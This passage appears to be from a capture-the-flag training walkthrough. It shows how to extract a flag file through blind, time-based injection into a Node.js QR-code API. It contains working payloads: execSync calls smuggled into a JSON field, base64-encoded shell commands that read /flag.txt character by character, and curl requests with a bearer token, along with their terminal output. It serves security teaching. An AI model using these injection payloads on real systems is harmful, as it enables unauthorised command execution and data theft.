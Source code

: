 Students will find the number `1` is present in the second position of the flag.

Finally, students need generate the payloads to test for the number found in the third position of the flag:

Code: shell

```shell
for i in {0..5}; do   echo -n "Character: $i    "; echo -n "cat /flag.txt | head -c 3 | tail -c 1 | { read c; if [ \$c = $i ]; then sleep 2; fi; }" | base64 -w0; echo \n; done
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ for i in {0..5}; do   echo -n "Character: $i    "; echo -n "cat /flag.txt | head -c 3 | tail -c 1 | { read c; if [ \$c = $i ]; then sleep 2; fi; }" | base64 -w0; echo \n; done

Character: 0    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 1    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMSBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 2    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMiBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 3    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMyBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 4    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gNCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
Character: 5    Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gNSBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n
```

Students need to again test each payload against the target:

Code: shell

```shell
time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer <token>" -d "{ \"text\": \"'}) + require('child_process').execSync('echo <base64 encoded payload> | base64 -d | bash')//\" }" http://STMIP:STMPO/api/service/generate
```

```
┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMCBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m0.173s
user	0m0.008s
sys	0m0.000s

┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
└──╼ [★]$ time curl -s -X POST -H "Content-Type: application/json" -H "Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6InRlc3RAaGFja3RoZWJveC5jb20iLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MDEwNDE3ODIsImV4cCI6MTcwMTEyODE4Mn0.Ow17Rwy0NiFisOzEhNIosbv7pQYX2mPgw2oamoQijDA" -d "{ \"text\": \"'}) + require('child_process').execSync('echo Y2F0IC9mbGFnLnR4dCB8IGhlYWQgLWMgMyB8IHRhaWwgLWMgMSB8IHsgcmVhZCBjOyBpZiBbICRjID0gMSBdOyB0aGVuIHNsZWVwIDI7IGZpOyB9n | base64 -d | bash')//\" }" http://94.237.54.59:50504/api/service/generate

{"message":"Could not generate QR code."}
real	0m0.170s
user	0m0.003s
sys	0m0.003s

┌─[us-academy-1]─[10.10.15.254]─[htb-ac-594497@htb-tkodmhrqgu]─[~]
```